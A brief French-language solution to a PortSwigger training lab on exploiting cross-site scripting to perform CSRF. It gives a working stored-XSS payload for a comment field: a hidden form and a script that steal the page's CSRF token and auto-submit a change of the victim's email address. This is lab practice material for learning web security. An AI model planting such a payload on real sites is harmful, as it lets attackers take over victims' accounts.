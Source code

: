 # Lab

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

## Payload

Dans le commentaire, mettre ce script :

```html
<form action="/my-account/change-email" method="POST" style="display: none;" id="chgEmail">
    <input type="hidden" name="csrf">
    <label for="email">Email :</label>
    <input type="email" name="email" id="email" value="hacked@test.com" required>
    <button type="submit">Changer l'adresse email</button>
</form>

<script>
    window.addEventListener('load', function () {
        const csrfToken = document.querySelectorAll('input[name="csrf"]')[1].value;
        document.querySelector('form#chgEmail input[name="csrf"]').value = csrfToken;
        document.querySelector('form#chgEmail').submit();
    });
</script>
```